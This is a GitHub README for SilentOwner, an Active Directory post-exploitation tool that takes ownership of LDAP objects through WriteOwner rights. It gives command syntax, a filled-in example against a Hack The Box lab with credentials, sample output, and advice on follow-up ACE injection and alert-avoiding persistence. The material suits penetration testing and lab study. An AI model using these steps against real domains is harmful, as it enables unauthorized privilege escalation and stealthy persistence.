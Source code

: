 # 🛡️ SilentOwner — Replace LDAP OwnerSID via WriteOwner without touching ACEs  
🧬 Built for post-exploitation, stealth privilege escalation, and AD persistence

**SilentOwner** is a stealthy LDAP post-exploitation tool that lets you **change the OwnerSID** of any Active Directory object — such as a user or group — when your account holds **WriteOwner** permissions.

It operates entirely over LDAP using the correct `SDFlags` control to modify the `nTSecurityDescriptor` attribute.  
This enables you to **silently assume ownership**, gain **implicit control**, and prepare **privilege escalation paths** — without needing a shell or triggering alerts.

---

## 🔧 Requirements

- Python 3.10+
- [`ldap3`](https://pypi.org/project/ldap3/)
- [`impacket`](https://github.com/SecureAuthCorp/impacket)

Install with:

```bash
pip install -r requirements.txt
```

---

## 🚀 Basic Syntax

```bash
python3 SilentOwner.py \
  --dc-ip <DC_IP> \
  -u <USERNAME> \
  -p '<PASSWORD>' \
  --domain <DOMAIN> \
  --target-dn '<DISTINGUISHED_NAME>' \
  --new-owner-sid '<NEW_OWNER_SID>'
```

- `--target-dn`: Full DN of the target object (e.g., group, user)  
- `--new-owner-sid`: SID to assign as new owner (usually your own)

<details>
<summary>📦 Certified (HTB)<Windows>

```bash
python3 SilentOwner.py \
  --dc-ip 10.129.128.69 \
  -u judith.mader@certified.htb \
  -p 'judith09' \
  --domain certified.htb \
  --target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' \
  --new-owner-sid 'S-1-5-21-729746778-2675978091-3820388244-1103'
```
</details>

---

## 📤 Example Output

```text
🛡️ SilentOwner is live — scanning for target object ownership...

[+] LDAP bind successful.
[DEBUG] Raw sd['OwnerSid']: b'\x01\x00\x00...'
[+] Current owner: S-1-5-21-729746778-2675978091-3820388244-1104
[+] Replacing owner with: S-1-5-21-729746778-2675978091-3820388244-1103
[✅] Ownership of CN=Management,CN=Users,DC=certified,DC=htb successfully changed
```

---

## 🧩 Usage Strategy

SilentOwner is most effective when combined with tools like:

### 🔍 Certipy-ACL
- Use `certipy acl` to discover objects where your user has **WriteOwner**
- Filter by your own SID to isolate takeover targets

### 🧠 SID Mapping
- Extract SIDs from LDAP using `ldapsearch` or custom tools
- Use your user SID as the new owner in takeover

### ⚙️ Post-Takeover
- After becoming owner, you can inject ACEs (e.g., `GenericAll`, `WriteDACL`) using other tools
- Consider persistence strategies that don’t trigger alerts

🧬 *SilentOwner is for the stealthy step — not for noisy privilege assignments. Combine it with follow-up tools.*

---

## ⚠️ Warning

Replacing the OwnerSID of LDAP objects is a powerful action.  
Done incorrectly, it can:

- Break delegation chains
- Affect replication metadata
- Leave subtle traces for defenders

Always test in a lab before using in real-world scenarios.

---

## 📄 License

MIT License

SilentOwner is based on live LDAP modification techniques, using `ldap3` and `impacket` to operate without touching ACEs.  
Authored with ❤️ by [xploitnik](https://github.com/xploitnik).




